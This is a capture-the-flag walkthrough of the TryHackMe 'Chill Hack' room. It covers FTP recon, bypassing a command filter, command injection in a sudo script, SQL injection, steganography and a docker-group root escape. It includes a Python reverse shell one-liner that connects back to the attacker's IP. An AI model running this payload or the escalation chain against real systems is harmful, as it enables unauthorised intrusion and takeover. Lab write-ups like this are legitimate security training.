

# THM: Chill Hack

## Reconnaissance

The FTP server allowed for anonymous login which contained the file `note.txt`.
It mentioned some type of filtering being in place. 


Directory brute-force of the web server discovered `/secret/` which allowed for
command execution but some basic filtering is in place.


## Initial Access

I used the following python reverse shell payload to get a shell as www-data.

```
export RHOST="10.13.2.223";export RPORT=80;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```


This user can run the script `.helpline.sh` as the user apaar. Investigating
the source code you will see that the variable `msg` is being assigned with
`read` (user input) and is then used directly in a command. This allows for us 
to inject our own command such as `/bin/bash` to get a shell as the user apaar.


## Privilege Escalation

Listing the listening ports you will see that port 9001 is listening locally.


To access port 9001 from my attacking machine I generated an ssh key pair, added
my public key to apaar's `.ssh/authorized_keys` file, and started a reverse port
forward using ssh. 


The login page could be bypassed with a basic SQL injection. Once logged in the
landing page hints to steganography. I downloaded the image and used `steghide`
to extract a password protected zip file that was hidden inside it. I then used
`zip2john` to generate a hash and cracked the password of the zip file. 


The zip file contained a single file, `source_code.php`. This file contained a
username and base64 encoded password as seen below. 


I decoded the password and logged in as the user anurodh. This user was part of
the docker group. Referencing 
[GTFOBins](https://gtfobins.github.io/gtfobins/docker/) I found a command to
break out of restricted environments that resulted in a root shell. 



